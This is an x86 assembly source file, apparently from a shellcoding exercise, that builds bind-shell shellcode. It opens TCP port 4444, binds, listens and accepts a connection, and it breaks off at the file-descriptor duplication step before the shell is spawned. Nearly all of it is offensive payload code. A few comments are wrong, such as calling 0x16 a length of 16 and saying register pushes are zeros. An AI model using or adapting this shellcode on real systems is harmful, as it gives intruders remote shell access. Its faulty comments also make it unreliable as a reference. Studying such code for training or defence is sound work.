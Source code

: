 ````nasm
; Filename: shell_bind_tcp.nasm
; Author: h3ll0clar1c3
; Purpose: Bbind shellcode on TCP port 4444, spawn a shell on incoming connection
; Compilation: ./compile.sh shell_bind_tcp
; Usage: ./shell_bind_tcp
; Testing: nc -nv 127.0.0.1 4444
; Shellcode size: 105 bytes
; Architecture: x86

global   _start

section .text
        _start:

        ; initialize registers
        xor eax, eax
        xor ebx, ebx
        xor esi, esi

        ; push socket values onto the stack
        push esi        ; push 0 onto the stack, default protocol
        push 0x1        ; push 1 onto the stack, SOCK_STREAM
        push 0x2        ; push 2 onto the stack, AF_INET
	
        ; 1st syscall - create socket
        mov al, 0x66    ; hex value for socket
        mov bl, 0x1     ; socket
        mov ecx, esp    ; pointer to the arguments pushed
        int 0x80        ; call the interrupt to create the socket, execute the syscall
        mov edx, eax    ; save the return value

        ; 2nd syscall - bind socket to IP/Port in sockaddr struct
        push esi        ; push 0 for bind address 0.0.0.0
        push word 0x5c11; bind port 4444 is set
        push word 0x2   ; AF_INET
        mov ecx, esp    ; move esp into ecx, store the const struct sockaddr *addr argument
        push 0x16       ; length of sockaddr struct, 16
        push ecx        ; push all zeros on the stack, equals IP parameter of 0.0.0.0
        push edx        ; push all zeros on the stack, equals IP parameter of 0.0.0.0
        mov al, 0x66    ; hex value for socket
        mov bl, 2       ; sys_bind = 2
        mov ecx, esp    ; pointer to the arguments
        int 0x80        ; call the interrupt to execute the bind syscall

        ; 3rd syscall - listen for incoming connections
        push byte 0x1   ; listen for 1 client at a time
        push edx        ; pointer to stack
        mov al, 0x66    ; socketcall
        mov bl, 0x4     ; sys_listen = 4
        mov ecx, esp    ; pointer to the arguments pushed
        int 0x80        ; call the interrupt to execute the listen syscall

        ; 4th syscall - accept incoming connections
        push esi        ; NULL
        push esi        ; NULL
        push edx        ; pointer to sockfd
        mov al, 0x66    ; socketcall
        mov bl, 5       ; sys_accept = 5
        mov ecx, esp    ; pointer to arguments pushed
        int 0x80        ; call the interrupt to execute accept syscall

        ; 5th syscall - duplicate file descriptors for STDIN, STDOUT and STDERR
        mov edx, eax    ; save client file descriptor
````